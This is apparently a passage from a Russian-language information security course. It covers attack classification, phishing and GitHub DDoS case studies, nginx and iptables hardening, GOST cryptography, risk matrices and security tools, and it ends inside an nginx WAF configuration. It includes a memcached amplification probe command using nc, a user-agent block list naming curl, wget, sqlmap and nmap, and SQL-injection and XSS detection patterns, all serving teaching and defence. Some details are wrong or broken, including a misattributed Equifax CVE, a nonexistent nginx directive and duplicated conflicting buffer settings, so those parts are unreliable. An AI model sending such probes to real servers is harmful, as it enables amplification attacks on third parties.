Данных эксфильтровано: Нет (быстрая реакция)
Учётных записей скомпрометировано: 1 (jsmith)
Финансовый ущерб: 0 руб. (предотвращён)
Репутационный ущерб: Минимальный
Время простоя: 2 часа (WS-045)

================================================================================
REMEDIATION (ВОССТАНОВЛЕНИЕ)
================================================================================
1. Переустановка системы WS-045 (16.01.2024)
2. Сброс пароля пользователя jsmith (15.01.2024)
3. Обучение пользователя по фишингу (17.01.2024)
4. Блокировка макросов в Office через GPO (16.01.2024)
5. Обновление IOC в SIEM (15.01.2024)
6. Настройка нового правила корреляции (16.01.2024)

================================================================================
ОТЧЁТНОСТЬ (ФСТЭК)
================================================================================
Отчёт в ФСТЭК: Требуется (Категория 2)
Срок: 24 часа с момента обнаружения
Статус: Отправлен 16.01.2024 10:00:00
Номер уведомления: ФСТЭК-2024-0423

================================================================================
УРОКИ И УЛУЧШЕНИЯ
================================================================================
1. Обновить тренинг по фишингу для бухгалтерии
2. Внедрить Application Whitelisting (AppLocker)
3. Настроить более строгие политики макросов Office
4. Добавить правило SIEM для родительского процесса WINWORD
5. Провести tabletop exercise по данному сценарию

================================================================================
ПОДПИСИ
================================================================================
SOC Manager: _________________ / И.И. Иванов / 16.01.2024
CISO: _________________ / П.П. Петров / 16.01.2024
Ответственный за ФСТЭК: _________________ / С.С. Сидоров / 16.01.2024
================================================================================
```
## Список литературы 
1. Методический документ ФСТЭК России — _Методика определения актуальных угроз безопасности информации_.
2. Базовая модель угроз безопасности персональных данных (ФСТЭК России).
3. Базовая модель угроз безопасности КИИ РФ.
4. НКЦКИ — Методические рекомендации по обнаружению компьютерных атак.
5. Баранов А.В. — _Моделирование угроз информационной безопасности_. — М.: Юрайт.
---
# Модуль 3. ВИДЫ АТАК

## 3.1. Классификация атак (по ФСТЭК России)

| Тип атаки | Определение | Нормативный документ | Пример | CVSS | ФСТЭК категория |
|-----------|-------------|---------------------|--------|------|----------------|
| **Фишинг** | Обманный путь получения конфиденциальной информации | ФСТЭК требование 5.3 | Google/Facebook ($123 млн) | — | 2 |
| **Атаки на пароли** | Подбор или использование украденных учётных данных | ФСТЭК требование 4.1 | Yahoo (500 млн учёток) | 7.5 | 2 |
| **DDoS** | Перегрузка системы трафиком | ФСТЭК требование 7.4 | GitHub (1.35 Tbps) | — | 1 |
| **Цепочка поставок** | Внедрение вредоносного кода в ПО | ФСТЭК требование 6.3 | NotPetya ($10 млрд) | 10.0 | 1 |
| **Эксплуатация уязвимостей** | Поиск и реализация уязвимостей | ФСТЭК требование 6.1 | Equifax (CVE-2017-5632) | 10.0 | 1 |
| **Инсайдерская угроза** | Угроза от сотрудников организации | ФСТЭК требование 5.1 | Tesla (инсайдер 2018) | — | 2 |
| **Ransomware** | Шифрование данных для выкупа | ФСТЭК требование 6.2 | Colonial Pipeline (2021) | 9.8 | 1 |

## 3.2. Фишинг (Phishing) — углублённый анализ

### 3.2.1. Реальный кейс: Google и Facebook (2013-2015) — технические детали

```
АТАКУЮЩИЙ: Evaldas Rimasauskas (Литва)
ЖЕРТВЫ: Google ($23 млн), Facebook ($100 млн)
ОБЩИЙ УЩЕРБ: $123 миллиона
ПЕРИОД: 2013-2015 (2 года)
МЕТОД: Business Email Compromise (BEC) + Подделка компании

ТЕХНИЧЕСКИЕ ДЕТАЛИ:
1. Регистрация компаний в Латвии и Гонконге:
   - Quanta Storage Inc. (подделка Quanta Computer)
   - Поддельные банковские счета
   
2. Подделка документов:
   - Фальшивые счета-фактуры
   - Поддельные контракты
   - Фальшивые печати компаний
   
3. Email-инфраструктура:
   - Домены: quanta-storage.com, quanta-computer.net
   - SPF: Настроен для легитимности
   - DKIM: Подписанные письма
   
4. Социальная инженерия:
   - Целевые письма финансовым отделам
   - Использование реальных имен поставщиков
   - Срочность оплаты ("оплатить в течение 3 дней")

5. Money Laundering:
   - Переводы через 5 стран
   - Обмен через криптовалюты
   - Наличные снятия

РЕЗУЛЬТАТ:
- Арест в 2017 году (Литва)
- Экстрадиция в США в 2017
- Приговор: 5 лет тюрьмы (2019)
- Возвращено: $50 млн из $123 млн
```

### 3.2.2. Практическая защита (152-ФЗ + ФСТЭК)


---
## 3.3. DDoS-атаки — углублённый анализ

### 3.3.1. Реальный кейс: GitHub DDoS (2018) — технические детали

```
АТАКА:
• Дата: 28 февраля 2018, 17:21 UTC
• Тип: Memcached amplification attack
• Пиковая мощность: 1.35 Tbps (терабит в секунду)
• Пакетов в секунду: 126.9 млн pps
• Длительность: 8 минут 23 секунды
• Цель: GitHub.com

КАК РАБОТАЛО:
1. Разведка: Злоумышленники нашли серверы Memcached с открытым UDP портом 11211
2. Amplification: Маленький запрос (15 байт) → Огромный ответ (до 750 KB)
3. Spoofing: Подмена IP-адреса отправителя на IP жертвы (GitHub)
4. Ботнет: Минимум 4 серверов Memcached использовано
5. Коэффициент усиления: до 51,000x

ТЕХНИЧЕСКИЕ ДЕТАЛИ:
Запрос атакующего:
  echo -ne '\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n' | \
  nc -u 192.168.1.1 11211

Ответ сервера Memcached:
  STAT pid 1234
  STAT uptime 567890
  STAT time 1234567890
  ... (до 750 KB данных)

ЗАЩИТА:
• GitHub использовал Akamai Prolexic (DDoS mitigation service)
• Трафик перенаправлен через scrubbing centers
• BGP FlowSpec для фильтрации на уровне провайдера
• Атака отражена за 8 минут 23 секунды

УЩЕРБ:
• Простой: 8 минут (минимальный)
• Репутационный ущерб: Минимальный (быстрая реакция)
• Стоимость защиты: ~$200,000/год (Akamai Prolexic)
```

### 3.3.2. Практическая защита от DDoS (Nginx + iptables + ФСТЭК 7.4)

```nginx
#==============================================================================
# NGINX КОНФИГУРАЦИЯ ДЛЯ ЗАЩИТЫ ОТ DDoS (ФСТЭК ТРЕБОВАНИЕ 7.4)
#==============================================================================

http {
    #==========================================================================
    # RATE LIMITING
    #==========================================================================
    # Зона для rate limiting: 10MB памяти, 10 запросов в секунду на IP
    limit_req_zone $binary_remote_addr zone=one:10m rate=10r/s;
    limit_req_zone $server_name zone=api:10m rate=50r/s;
    
    # Ограничение размера тела запроса (защита от Slow HTTP)
    client_max_body_size 1M;
    client_body_buffer_size 128k;
    
    # Таймауты для защиты от Slowloris
    client_body_timeout 10;
    client_header_timeout 10;
    send_timeout 10;
    keepalive_timeout 65;
    
    #==========================================================================
    # БУФЕРЫ
    #==========================================================================
    client_body_buffer_size 1K;
    client_header_buffer_size 1k;
    client_max_header_buffer 1k;
    large_client_header_buffers 2 1k;
    
    server {
        listen 80;
        listen 443 ssl http2;
        server_name example.com;
        
        # SSL конфигурация
        ssl_certificate /etc/nginx/ssl/example.com.crt;
        ssl_certificate_key /etc/nginx/ssl/example.com.key;
        ssl_protocols TLSv1.2 TLSv1.3;
        ssl_ciphers HIGH:!aNULL:!MD5;
        
        location / {
            # Применение rate limiting с burst
            limit_req zone=one burst=20 nodelay;
            limit_req_status 429;
            
            # Дополнительные защиты
            proxy_connect_timeout 5s;
            proxy_send_timeout 10s;
            proxy_read_timeout 10s;
            
            # Скрытие версии nginx
            server_tokens off;
            
            # Дополнительные заголовки безопасности
            add_header X-Frame-Options "SAMEORIGIN" always;
            add_header X-Content-Type-Options "nosniff" always;
            add_header X-XSS-Protection "1; mode=block" always;
            
            proxy_pass http://backend;
        }
        
        # API endpoints - более строгий rate limiting
        location /api/ {
            limit_req zone=api burst=10 nodelay;
            limit_req_status 429;
            
            proxy_pass http://backend;
        }
        
        # Блокировка подозрительных user-agent
        if ($http_user_agent ~* (curl|wget|scanner|nikto|sqlmap|nmap|masscan)) {
            return 403;
        }
        
        # Блокировка пустого user-agent
        if ($http_user_agent = "") {
            return 403;
        }
        
        # Логирование подозрительных запросов
        access_log /var/log/nginx/ddos_access.log;
        error_log /var/log/nginx/ddos_error.log;
    }
}
```

```bash
#==============================================================================
# IPTABLES ПРАВИЛА ДЛЯ ЗАЩИТЫ ОТ DDoS (ФСТЭК ТРЕБОВАНИЕ 7.1)
#==============================================================================

#!/bin/bash

# Очистка существующих правил
iptables -F
iptables -X
iptables -t nat -F
iptables -t nat -X
iptables -t mangle -F
iptables -t mangle -X

# Политики по умолчанию
iptables -P INPUT DROP
iptables -P FORWARD DROP
iptables -P OUTPUT ACCEPT

# Разрешение loopback
iptables -A INPUT -i lo -j ACCEPT
iptables -A OUTPUT -o lo -j ACCEPT

# Разрешение установленных соединений
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT

# Ограничение SYN пакетов (защита от SYN flood)
iptables -A INPUT -p tcp --syn -m limit --limit 1/s --limit-burst 3 -j ACCEPT

# Защита от ping flood
iptables -A INPUT -p icmp --icmp-type echo-request -m limit --limit 1/s --limit-burst 4 -j ACCEPT
iptables -A INPUT -p icmp --icmp-type echo-reply -j ACCEPT

# Защита от фрагментированных пакетов
iptables -A INPUT -f -j DROP

# Блокировка invalid пакетов
iptables -A INPUT -m state --state INVALID -j DROP

# Защита от NULL scan
iptables -A INPUT -p tcp --tcp-flags ALL NONE -j DROP

# Защита от XMAS scan
iptables -A INPUT -p tcp --tcp-flags ALL ALL -j DROP

# Защита от FIN scan
iptables -A INPUT -p tcp --tcp-flags ALL FIN -j DROP

# Ограничение новых соединений на порт
iptables -A INPUT -p tcp --dport 80 -m state --state NEW -m limit --limit 60/s --limit-burst 20 -j ACCEPT
iptables -A INPUT -p tcp --dport 443 -m state --state NEW -m limit --limit 60/s --limit-burst 20 -j ACCEPT

# Логирование dropped пакетов (ФСТЭК требование 8.2)
iptables -A INPUT -j LOG --log-prefix "IPTABLES_DROPPED: " --log-level 4
iptables -A INPUT -j DROP

# Сохранение правил
iptables-save > /etc/iptables/rules.v4

echo "✅ iptables правила применены (ФСТЭК 7.1)"
```

## Список литературы
1. ФСТЭК России — _Методические рекомендации по классификации угроз безопасности информации_.
2. Банников А.А. — _Компьютерные атаки и методы защиты_. — М.: КНОРУС.
3. Шелухин О.И. — _Обнаружение вторжений в компьютерные сети_. — М.: Горячая линия-Телеком.
4. НКЦКИ — Бюллетени компьютерных атак (официальные публикации).
5. ГОСТ Р 57580.1-2017 — Безопасность финансовых организаций.
---
# Модуль 4. КРИПТОГРАФИЯ И СТЕГАНОГРАФИЯ

## 4.1. Криптография (по ГОСТ Р 34.10-2012, ГОСТ Р 34.11-2012)

### 4.1.1. Основные методы и алгоритмы

| Метод | Алгоритмы | ГОСТ РФ | Преимущества | Недостатки | Применение |
|-------|-----------|---------|--------------|------------|------------|
| **Симметричное шифрование** | AES, ГОСТ 28147-89, «Кузнечик» | ГОСТ Р 34.12-2015 | Высокая скорость (до 10 Гбит/с), простота реализации | Проблема распределения ключей, масштабируемость | Шифрование данных, VPN, TLS |
| **Асимметричное шифрование** | RSA, ГОСТ Р 34.10-2012, ECC | ГОСТ Р 34.10-2012 | Безопасная передача ключей, цифровая подпись | Низкая скорость (в 1000 раз медленнее симметричного) | Обмен ключами, ЭЦП, сертификаты |
| **Хеширование** | SHA-256, ГОСТ Р 34.11-2012 («Стрибог») | ГОСТ Р 34.11-2012 | Односторонность, устойчивость к коллизиям | Невозможность восстановления данных | Контроль целостности, пароли |
| **Цифровая подпись** | ECDSA, ГОСТ Р 34.10-2012 | ГОСТ Р 34.10-2012 | Аутентичность, неотказуемость, юридическая значимость | Требует управления ключами, инфраструктура PKI | Документы, транзакции, код |

### 4.1.2. Российские криптографические стандарты (ФСТЭК/ФСБ)

```
┌─────────────────────────────────────────────────────────────────────────┐
│                    РОССИЙСКИЕ КРИПТОГРАФИЧЕСКИЕ СТАНДАРТЫ               │
├─────────────────────────────────────────────────────────────────────────┤
│  ГОСТ Р 34.10-2012  │ Цифровая подпись (аналог ECDSA, 256/512 бит)     │
│  ГОСТ Р 34.11-2012  │ Хеш-функция «Стрибог» (256/512 бит)              │
│  ГОСТ Р 34.12-2015  │ Блочное шифрование «Кузнечик» (128 бит)          │
│  ГОСТ 28147-89      │ Блочное шифрование (устаревший, но применяется)  │
│  ФСБ России         │ Сертификаты СКЗИ (Средства Криптозащиты)         │
│  Приказ ФСБ №378    │ Требования к использованию КСЗИ                  │
└─────────────────────────────────────────────────────────────────────────┘
```
---
### 4.1.4. Управление криптографическими ключами (ФСТЭК требование 6.4)



**Требования ФСТЭК к управлению ключами:**

| Требование | Описание | Контроль |
|------------|----------|----------|
| **Генерация** | Использование сертифицированных СКЗИ, генераторов случайных чисел | Акт генерации ключей |
| **Хранение** | В защищённых носителях (токены, HSM, сейфы) | Журнал учёта ключей |
| **Распределение** | Защищённые каналы связи, курьерская доставка | Акт приёма-передачи |
| **Ротация** | Смена ключей каждые 6-12 месяцев (зависит от класса защиты) | График ротации |
| **Уничтожение** | Физическое уничтожение носителей, криптографическое стирание | Акт уничтожения |

---
## 4.2. Стеганография

### 4.2.1. Методы стеганографии

| Метод | Описание | Ёмкость | Стойкость | Применение |
|-------|----------|---------|-----------|------------|
| **LSB (Least Significant Bit)** | Замена наименее значимых битов пикселей | Высокая (1 бит на пиксель) | Низкая (уязвима к сжатию) | Изображения BMP, PNG |
| **DCT (Discrete Cosine Transform)** | Встраивание в коэффициенты JPEG | Средняя | Средняя | Изображения JPEG |
| **Спектральные методы** | Встраивание в частотную область аудио | Высокая | Высокая | Аудиофайлы WAV, MP3 |
| **Текстовая стеганография** | Изменение пробелов, шрифтов, HTML-тегов | Низкая | Средняя | Документы, email |
| **Сетевая стеганография** | Встраивание в заголовки пакетов, тайминги | Низкая | Высокая | Сетевой трафик |

---
### 4.2.3. Сравнение криптографии и стеганографии

| Характеристика                | Криптография                           | Стеганография                               | Крипто-стеганография          |
| ----------------------------- | -------------------------------------- | ------------------------------------------- | ----------------------------- |
| **Основная цель**             | Защита содержания информации           | Скрытие факта существования информации      | Двойная защита                |
| **Методы**                    | Шифрование, хеширование, ЭЦП           | Встраивание в носители (изображения, аудио) | Шифрование + встраивание      |
| **Обнаружение**               | Трудно расшифровать без ключа          | Можно обнаружить стеганоанализом            | Максимально скрытно           |
| **Применение**                | Защита конфиденциальности, целостности | Скрытие факта передачи                      | Секретная связь, watermarking |
| **Нормативное регулирование** | ГОСТ Р 34.10-2012, 152-ФЗ, ФСТЭК       | Не регулируется                             | Регулируется как КСЗИ         |
| **Стойкость**                 | Зависит от длины ключа (AES-256)       | Зависит от метода встраивания               | Комбинированная стойкость     |

### 4.2.4. Крипто-стеганография (комбинированный подход)



**Преимущества комбинированного подхода:**

1. **Усиленная безопасность**: Даже при обнаружении скрытых данных их содержание остаётся зашифрованным
2. **Многоуровневая защита**: Требуется преодолеть два уровня защиты
3. **Снижение заметности**: Зашифрованные данные выглядят как случайный шум
4. **Соответствие требованиям**: Криптографическая часть регулируется ФСТЭК/ФСБ

## Список литературы
1. Смирнов В.А. — _Криптографические методы защиты информации_. — М.: Академия.
2. Алферов А.П. — _Основы криптографии_. — М.: Гелиос АРВ.
3. ГОСТ Р 34.10-2012 — Электронная подпись.
4. ГОСТ Р 34.11-2012 — Функция хеширования.
5. ГОСТ 28147-89 — Криптографический алгоритм шифрования.
---
# Модуль 5. ОЦЕНКА РИСКОВ И УПРАВЛЕНИЕ УГРОЗАМИ

## 5.1. Основные понятия (ГОСТ Р ИСО/МЭК 27005-2021)

| Понятие | Определение | Нормативный документ | Формула/Метод |
|---------|-------------|---------------------|---------------|
| **Угроза** | Совокупность условий, создающих опасность нарушения безопасности | ГОСТ Р 53114-2008 | Классификация: внешние/внутренние |
| **Уязвимость** | Свойство системы, позволяющее реализовать угрозу | ISO/IEC 27005 | CVE, CWE каталоги |
| **Риск** | Вероятность × Воздействие | ГОСТ Р ИСО/МЭК 27005-2021 | Risk = P × I |
| **Уровень риска** | Низкий / Средний / Высокий / Критический | ФСТЭК приказ №17 | Матрица рисков |
| **Остаточный риск** | Риск после применения мер защиты | ISO/IEC 27005 | Risk_residual = Risk_initial - Controls |

## 5.2. Методы оценки рисков

### 5.2.1. Качественная оценка (матрица рисков)



**Матрица рисков (ФСТЭК приказ №17):**

| Вероятность ↓ \ Воздействие → | 1   | 2   | 3   | 4   | 5      |
| ----------------------------- | --- | --- | --- | --- | ------ |
| **5**                         | 5   | 10  | 15  | 20  | **25** |
| **4**                         | 4   | 8   | 12  | 16  | 20     |
| **3**                         | 3   | 6   | 9   | 12  | 15     |
| **2**                         | 2   | 4   | 6   | 8   | 10     |
| **1**                         | 1   | 2   | 3   | 4   | 5      |

**Уровни риска:**
- **1-5**: Низкий (зелёный) — принятие риска
- **6-10**: Средний (жёлтый) — смягчение риска
- **11-15**: Высокий (оранжевый) — приоритетное смягчение
- **16-25**: Критический (красный) — немедленное устранение

### 5.2.2 Смешанная оценка рисков



## 5.3. Управление угрозами (4 стратегии по ФСТЭК)

| Стратегия      | Описание                             | Пример                                                | Когда применять                                       | ФСТЭК требование   |
| -------------- | ------------------------------------ | ----------------------------------------------------- | ----------------------------------------------------- | ------------------ |
| **Устранение** | Полное устранение угрозы             | Удаление уязвимого сервиса, отключение функции        | Если технически возможно и экономически целесообразно | Приказ №17, п. 6.1 |
| **Смягчение**  | Снижение вероятности или воздействия | IPS, резервные копии, обучение, MFA                   | Для большинства рисков (80-90%)                       | Приказ №17, п. 6.2 |
| **Передача**   | Передача риска третьей стороне       | Страхование киберрисков, облачные SLA, аутсорсинг SOC | При высоких финансовых рисках                         | Приказ №17, п. 6.3 |
| **Принятие**   | Осознанное решение остаться с риском | Для низких рисков, где затраты > ущерба               | Когда стоимость защиты превышает возможный ущерб      | Приказ №17, п. 6.4 |

---
## 5.4. Рамки управления рисками

### 5.4.1. NIST CSF (5 функций)



**Детализация функций NIST CSF:**

| Функция | Категории | Примеры мер | ФСТЭК соответствие |
|---------|-----------|-------------|-------------------|
| **Identify** | Управление активами, оценка рисков, политика ИБ | Инвентаризация, оценка рисков, политики | Приказ №17, п. 1-3 |
| **Protect** | Контроль доступа, обучение, защита данных | MFA, шифрование, антивирус | Приказ №17, п. 4-6 |
| **Detect** | Мониторинг, обнаружение аномалий | SIEM, IDS, UEBA | Приказ №17, п. 7 |
| **Respond** | Планирование, коммуникация, анализ | Playbooks, SOC, IR-команда | Приказ №17, п. 8 |
| **Recover** | Восстановление, улучшения | Бэкапы, DRP, lessons learned | Приказ №17, п. 9 |

### 5.4.2. ISO/IEC 27005 (процесс управления рисками)


## Список литературы
1. ГОСТ Р ИСО/МЭК 27001-2021 — Системы менеджмента информационной безопасности. Требования.
2. ГОСТ Р ИСО/МЭК 27005-2010 — Управление рисками информационной безопасности.
3. ФСТЭК России — Методические рекомендации по оценке рисков ИБ.
4. Герасименко В.А. — _Управление рисками информационной безопасности_. — М.: Юрайт.
5. Банников А.А. — _Аудит информационной безопасности_.
---
# Модуль 6. СРЕДСТВА ЗАЩИТЫ ИНФОРМАЦИИ

## 6.1. Классификация СЗИ (по ФСТЭК России)

| СЗИ               | Определение                           | Нормативный документ               | Основные функции                             | Класс защиты        |
| ----------------- | ------------------------------------- | ---------------------------------- | -------------------------------------------- | ------------------- |
| **КСЗИ**          | Криптографическое СЗИ                 | ГОСТ Р 34.10-2012, Приказ ФСБ №378 | Шифрование, ЭЦП, аутентификация              | 1-4 класс           |
| **Антивирус**     | ПО для обнаружения вредоносов         | ФСТЭК приказ №17, п. 6.2           | Сканирование, карантин, поведенческий анализ | Не классифицируется |
| **DLP**           | Предотвращение утечек данных          | 152-ФЗ, ФСТЭК приказ №21           | Контроль email, облака, USB, принтеры        | Не классифицируется |
| **IDS**           | Обнаружение вторжений                 | ФСТЭК приказ №17, п. 7.2           | Мониторинг, оповещение, корреляция           | Не классифицируется |
| **IPS**           | Предотвращение вторжений              | ФСТЭК приказ №17, п. 7.1           | Активная блокировка угроз                    | Не классифицируется |
| **SIEM**          | Управление событиями безопасности     | ФСТЭК приказ №17, п. 7.2           | Сбор, корреляция, отчётность, расследование  | Не классифицируется |
| **SOAR**          | Автоматизация реагирования            | ФСТЭК приказ №17, п. 8.1           | Orchestration, playbooks, автоматизация      | Не классифицируется |
| **Firewall (МЭ)** | Межсетевой экран                      | ФСТЭК приказ №17, п. 7.1           | Фильтрация трафика, правила доступа          | 1-5 класс           |
| **WAF**           | Защита веб-приложений                 | ФСТЭК приказ №17, п. 7.3           | Блокировка XSS, SQLi, DDoS                   | Не классифицируется |
| **UEBA**          | Анализ поведения пользователей        | ФСТЭК приказ №17, п. 7.2           | Обнаружение аномалий, инсайдерских угроз     | Не классифицируется |
| **SGRC**          | Управление ИБ, рисками, соответствием | ФСТЭК приказ №17, п. 1-3           | Политики, аудит, метрики, отчётность         | Не классифицируется |

## 6.2. Практическая реализация СЗИ

### 6.2.1. WAF в Nginx (ФСТЭК требование 7.3)

```nginx
#==============================================================================
# WAF КОНФИГУРАЦИЯ NGINX (ФСТЭК ТРЕБОВАНИЕ 7.3)
# Защита веб-приложений от OWASP Top-10
#==============================================================================

http {
    #==========================================================================
    # RATE LIMITING (Защита от DDoS)
    #==========================================================================
    limit_req_zone $binary_remote_addr zone=one:10m rate=10r/s;
    limit_req_zone $server_name zone=api:10m rate=50r/s;
    
    #==========================================================================
    # РАЗМЕРЫ И ТАЙМАУТЫ
    #==========================================================================
    client_max_body_size 1M;
    client_body_buffer_size 128k;
    client_body_timeout 10;
    client_header_timeout 10;
    send_timeout 10;
    keepalive_timeout 65;
    
    server {
        listen 80;
        listen 443 ssl http2;
        server_name example.com;
        
        # SSL конфигурация (ФСТЭК требование 4.2)
        ssl_certificate /etc/nginx/ssl/example.com.crt;
        ssl_certificate_key /etc/nginx/ssl/example.com.key;
        ssl_protocols TLSv1.2 TLSv1.3;
        ssl_ciphers 'ECDHE-ECDSA-AES256-GCM-SHA384:ECDHE-RSA-AES256-GCM-SHA384';
        ssl_prefer_server_ciphers on;
        ssl_session_cache shared:SSL:10m;
        
        #======================================================================
        # ЗАЩИТА ОТ SQL INJECTION (OWASP A03)
        #======================================================================
        set $block_sql_injections 0;
        if ($query_string ~* "union.*select") {
            set $block_sql_injections 1;
        }
        if ($query_string ~* "insert.*into") {
            set $block_sql_injections 1;
        }
        if ($query_string ~* "select.*from") {
            set $block_sql_injections 1;
        }
        if ($query_string ~* "delete.*from") {
            set $block_sql_injections 1;
        }
        if ($query_string ~* "update.*set") {
            set $block_sql_injections 1;
        }
        if ($query_string ~* "drop.*table") {
            set $block_sql_injections 1;
        }
        
        #======================================================================
        # ЗАЩИТА ОТ XSS (OWASP A03)
        #======================================================================
        set $block_xss 0;
        if ($query_string ~* "<script") {
            set $block_xss 1;
        }
        if ($query_string ~* "javascript:") {
            set $block_xss 1;
        }
        if ($query_string ~* "onerror=") {
            set $block_xss 1;
        }
        if ($query_string ~* "onload=") {
            set $block_xss 1;
        }
        
        #======================================================================
        # БЛОКИРОВКА ПОДОЗРИТЕЛЬНЫХ USER-AGENT
        #======================================================================
        if ($http_user_agent ~* (curl|wget|scanner|nikto|sqlmap|nmap|masscan)) {
            return 403;
        }
        if ($http_user_agent = "") {
            return 403;
        }
        
        location / {
            # Применение rate limiting
            limit_req zone=one burst=20 nodelay;
            limit_req_status 429;
            
            # Блокировка SQL injection и XSS
            if ($block_sql_injections = 1) {
                return 403;
            }
            if ($block_xss = 1) {
                return 403;
            }
            
            # Дополнительные заголовки безопасности
            add_header X-Frame-Options "SAMEORIGIN" always;
            add_header X-Content-Type-Options "nosniff" always;
            add_header X-XSS-Protection "1; mode=block" always;
            add_header Content-Security-Policy "default-src 'self'" always;
